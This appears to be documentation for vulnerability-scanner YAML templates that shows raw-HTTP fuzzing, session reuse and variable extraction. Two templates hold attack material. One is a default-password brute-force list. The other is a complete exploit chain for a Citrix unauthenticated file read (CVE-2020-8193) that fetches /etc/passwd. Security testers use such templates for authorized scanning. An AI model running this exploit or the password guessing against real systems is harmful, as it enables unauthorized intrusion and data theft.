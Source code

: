 ### HTTP Intruder fuzzing

This template makes a defined POST request in RAW format along with in template defined payloads running `clusterbomb` intruder and checking for string match against response.


```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

# HTTP Intruder fuzzing with in template payload support. 

requests:

  - payloads:
      username:
        - admin

      password:
        - admin
        - guest
        - password
        - test
        - 12345
        - 123456

    attack: clusterbomb

    # Available types: sniper, pitchfork and clusterbomb

    raw:
      - |
        POST /?username=§username§&paramb=§password§ HTTP/1.1
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5)
        Host: {{Hostname}}
        another_header: {{base64('§password§')}}
        Accept: */*
        body=test

    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```

### Fuzzing multiple requests 

This template makes a defined POST request in RAW format along with wordlist based payloads running `clusterbomb` intruder and checking for string match against response.

```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

requests:

# HTTP Intruder fuzzing wordlist based payload support. 

  - payloads:
      param_a: payloads/prams.txt
      param_b: payloads/paths.txt

    attack: clusterbomb

    # Available types: sniper, pitchfork and clusterbomb

    raw:
      # Request with simple param and header manipulation with DSL functions
      - |
        POST /?param_a=§param_a§&paramb=§param_b§ HTTP/1.1
        User-Agent: §param_a§
        Host: {{Hostname}}
        another_header: {{base64('§param_b§')}}
        Accept: */*

        admin=test

      # Request with body with DSL helper manipulation

      - |
        DELETE / HTTP/1.1
        User-Agent: nuclei
        Host: {{Hostname}}

        {{sha256('§param_a§')}} 

      - |
        PUT / HTTP/1.1
        Host: {{Hostname}}

        {{html_escape('§param_a§')}} + {{hex_encode('§param_b§'))}}

    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```


### Authenticated fuzzing

This template makes a subsequent HTTP requests with defined requests maintaining sessions between each requests and checking for string match against response.

```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

requests:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
        Origin: {{BaseURL}}
        Cookie: session=12312321sdasdsa
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko)
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
        Accept-Language: en-US,en;q=0.9

      - |
        POST /testing HTTP/1.1
        Host: {{Hostname}}
        Origin: {{BaseURL}}
        Connection: close
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko)
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
        Accept-Language: en-US,en;q=0.9

        testing=parameter

    # Cookie-reuse maintain the session between all request like browser. 

    cookie-reuse: true
    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```

### Dynamic variable support

This template makes a subsequent HTTP requests maintaining sessions between each requests, dynamically extracting data from one request and reusing them into another request using variable name and checking for string match against response.

```yaml
id: CVE-2020-8193

info:
  name: Citrix unauthenticated LFI
  author: pdteam
  severity: high

  # Source:- https://github.com/jas502n/CVE-2020-8193

requests:
  - raw:
      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
        Content-Type: application/xml
        X-NITRO-USER: xpyZxwy6
        X-NITRO-PASS: xWXHUJ56

        <appfwprofile><login></login></appfwprofile>

      - |
        GET /menu/ss?sid=nsroot&username=nsroot&force_setup=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/neo HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/stc HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <appfwprofile><login></login></appfwprofile>

      - |
        POST /rapi/filedownload?filter=path:%2Fetc%2Fpasswd HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <clipermission></clipermission>

    cookie-reuse: true

    # Using cookie-reuse to maintain session between each request, same as browser.

    extractors:
      - type: regex
        name: randkey
        part: body
        internal: true
        regex:
          - "(?m)[0-9]{3,10}\\.[0-9]+"

    # Using rand_key as dynamic variable to make use of extractors at run time.


    matchers:
      - type: regex
        regex:
          - "root:[x*]:0:0:"
        part: body
```
